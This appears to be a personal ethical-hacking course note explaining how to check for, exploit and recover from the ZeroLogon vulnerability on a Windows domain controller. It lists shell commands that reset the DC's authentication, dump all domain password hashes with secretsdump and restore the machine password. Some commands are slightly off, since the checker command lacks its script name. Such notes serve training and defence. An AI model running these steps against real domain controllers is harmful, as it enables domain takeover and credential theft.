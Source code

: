 ```yaml
---
tags:
  - PEH
---
```

## Definition
ZeroLogon is a **==VERY DANGEROUS attack== which can destroy the whole domain**, and the reason behind this because it sets the authentication of the DC to null. If the attack is not executed (AND RETRIEVED) properly, the DC (and the whole domain consecutively) will be destroyed.
## Executing ZeroLogon
1. Check if the DC is vulnerable to ZeroLogon
```bash
# Run the checker against the DC
python3 <dc-pc-name> <dc-ip>
```
2. Run the CVE
```bash
python3 cve-2020-1472 <dc-pc-name> <dc-ip>
```
3. Execute the attack
```bash
secretsdump.py -just-dc <domain-name>/<dc-pc-name>\$@<dc-ip>
```
4. Restoring the DC password (MOST IMPORTANT PART!)
	1. run `python3 secretsdump.py administartor@<dc-ip> -hashes <admin-hash>`
	2. Copy the `plain_password_hex`
	3. Run the `restorepassword.py` script: `python3 restorepassword.py <domain-name>/<dc-pc-name>@<dc-pc-name> -target-ip <dc-ip> -hexpass <plain_password_hex>`